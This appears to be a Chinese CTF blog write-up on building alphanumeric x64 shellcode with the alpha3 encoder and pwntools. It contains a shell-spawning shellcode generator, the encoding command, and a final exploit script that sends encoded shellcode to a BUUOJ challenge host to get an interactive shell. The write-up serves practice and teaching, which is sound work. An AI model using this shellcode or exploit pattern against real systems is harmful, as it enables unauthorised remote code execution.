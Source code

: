 参考这两篇博客

 http://taqini.space/2020/03/31/alpha-shellcode-gen/#alphanumeric-shellcode

https://blog.csdn.net/mcmuyanga/article/details/114828207

下面部分内容摘自大佬博客：

alphanumeric shellcode(纯字符shellcode)是比较实用的一项技术，因为有些时候程序会对用户输入的字符进行限制，比如只允许输入可见字符，这时就需要用到纯字符的shellcode了。

先

```
git clone https://github.com/TaQini/alpha3.git
```

再在alpha3文件夹下新建一个sc.py（名字任意），用于生成shellcode

sc.py中shellcode可以改成自己的，这里用默认的，sc.py中的内容如下：

```
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print(asm(sc))
```

命令，将shellcode输出到shellcode这个文件中

```
python3 sc.py > shellcode
```

命令（未指定输出文件则输出到屏幕上）

```
python ./ALPHA3.py x64 ascii mixedcase rax --input="存储shellcode的文件" > 输出文件
```

![image-20210409123959795](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739626.png)

**但是，这个shellcode是无效的，不知道为什么不行，网上也有师傅出现了同样的问题，但最后没有给出解决办法。**

最终exp：

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 28689)
shellcode = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t"
p.sendafter("Show me your magic!\n",shellcode)
p.interactive()
```

也不是完全没有解决办法，在命令行输入Taqini师傅写的脚本，就可以生成能跑通的shellcode

```
./shellcode_x64.sh rax
```
